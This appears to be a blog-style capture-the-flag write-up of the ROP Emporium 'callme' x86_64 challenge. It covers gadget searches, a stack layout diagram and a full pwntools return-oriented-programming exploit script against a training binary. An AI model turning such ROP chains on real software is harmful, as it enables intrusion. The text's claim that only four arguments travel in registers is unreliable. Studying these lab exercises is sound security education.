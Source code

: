 ```yaml
---
layout: post
permalink: /ROP_emporium/2022-07-13-ROP-x64-Challenge-3
title: ROP x64 Challenge 3
status: in progress
type: post
published: true
comments: true
date: 2022-07-13
---
```

## Challenge 3

With the first real ROP challenge completed, let's start getting into some of the fun stuff. While unintended gadgets are super fun to play with, it's also super useful to be able to call intended functions and that is what this challenge deals with. 

Before we go into the challenge, let's take a quick look at how function arguments are passed from caller to callie which is actually system dependent. In x86_64, both the stack and the registers are used, but in practice it's really just the registers. The first 4 arguments are placed in registers, then the rest are pushed onto the stack before the call.

| 64-bit register | 32-bit sub-register | 16-bit sub-register | 8-bit sub-register | Notes               |
| --------------- | ------------------- | ------------------- | ------------------ | ------------------- |
| %rcx            | %ecx                | %cx                 | %cl                | Counter & 4th arg   |
| %rdx            | %edx                | %dx                 | %dl                | 3rd arg             |
| %rsi            | %esi                | %si                 | %sil               | 2nd arg             |
| %rdi            | %edi                | %di                 | %dil               | 1st call argument |

So, if we have the following function:

```C
int foo(int var1, int var2, int var3){
	stuff
}
```

and we wanted to call the function as `foo(1,2,3);` then we would have to place 1 in rdi, 2 in rsi, and 3 in rdx.

With that background covered, let's look at the challenge:

> You must call the `callme_one()`, `callme_two()` and `callme_three()` functions in that order, ~~each with the arguments `0xdeadbeef`, `0xcafebabe`, `0xd00df00d` e.g. `callme_one(0xdeadbeef, 0xcafebabe, 0xd00df00d)` to print the flag~~. ==**For the x86_64 binary** double up those values, e.g. `callme_one(0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d)`==

First things first, let's just focus on doing it for callme_one. We need to find gadgets that will let us control the values of rdi, rsi, and rdx. The simplest way is to pop them off the stack because we already control that. So let's search for pop rdi in the binary.

```
pwndbg> ropper -- --search "pop rdi"
[INFO] Load gadgets for section: LOAD
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop rdi

[INFO] File: /root/working/callme/callme_64/callme
0x000000000040093c: pop rdi; pop rsi; pop rdx; ret; 
0x00000000004009a3: pop rdi; ret; 

```


Will you look at that, that's super useful (it's also there intentionally, hint `disass usefulGagets`).

With that gadget we can set all of the arguments to the callme functions.

```
         | stack          |
         | -------------- |
32 bytes | start buffer   |
8  bytes | base pointer   | # fill the buffer and base pointer
8  bytes | pop gadget loc | # call 1st gadget to pop off all the vals
8  bytes | 0xdeadbeef...  | # all of the function arguments
8  bytes | 0xcafebabe...  |
8  bytes | 0xd00df00d...  |
8  bytes | callme_1 loc   | # call the first call me function
8  bytes | pop gadget loc | # start again, and call the pop off gadget
8  bytes | 0xdeadbeef...  | # function args again
8  bytes | 0xcafebabe...  |
8  bytes | 0xd00df00d...  |
8  bytes | callme_2 loc   | # call the sec call me function
8  bytes | pop gadget loc | # start again for the last time
8  bytes | 0xdeadbeef...  |
8  bytes | 0xcafebabe...  |
8  bytes | 0xd00df00d...  |
8  bytes | callme_3 loc   | # final call of call me
8  bytes | -------------- |

```

There's just one last thing that we don't know, what values to place into the stack for the callme functions. To do this, we can use the rabin2 tool from before:
```
rabin2 -i callme
[Imports]
nth vaddr      bind   type   lib name
―――――――――――――――――――――――――――――――――――――
1   0x004006d0 GLOBAL FUNC       puts
2   0x004006e0 GLOBAL FUNC       printf
3   0x004006f0 GLOBAL FUNC       callme_three
4   0x00400700 GLOBAL FUNC       memset
5   0x00400710 GLOBAL FUNC       read
6   0x00000000 GLOBAL FUNC       __libc_start_main
7   0x00400720 GLOBAL FUNC       callme_one
8   0x00000000 WEAK   NOTYPE     __gmon_start__
9   0x00400730 GLOBAL FUNC       setvbuf
10  0x00400740 GLOBAL FUNC       callme_two
11  0x00400750 GLOBAL FUNC       exit
```

And we are able to get the locations of the callme functions. An important note is that these are in the plt (Procedure Linkage Table), not actually the callme binary. That won't matter for this challenge, but we will have to deal with the plt and how linked binaries work later on.

At this point we have all of the values that we want to put on the stack, so it's just a question of coding up an exploit in python with our trusty pwntools.

```python
#!/usr/bin/python3

from pwn import *
io = process('./callme')

# The amount to fill the buffer
junk = b'A' * 0x20

# The 8 bytes to fill the new base pointer from the leave
new_bp = p32(0xcafebabe)*2

# This is the vaddr of system
# First return to the location of the pop rdi
popper = p64(0x0040093c)
call1 = p64(0x00400720)
call2 = p64(0x00400740)
call3 = p64(0x004006f0)

back_junk = b"B" * 20

newbp    = p32(0xba5effff) * 2

d00df00d = p32(0xd00df00d) * 2
deadbeef = p32(0xdeadbeef) * 2
cafebabe = p32(0xcafebabe) * 2

args = deadbeef + cafebabe + d00df00d 

payload = junk + newbp + popper + args +call1 + popper + args + call2 + popper + args + call3

print("The payload is:")
print(payload)

input("Hit enter to apptempt exploit")

print(io.clean(0.5).decode("utf-8"))

io.send(payload)

input("exploit sent hit enter to end")

print(io.clean(0.5).decode("utf-8"))

sleep(1)

```

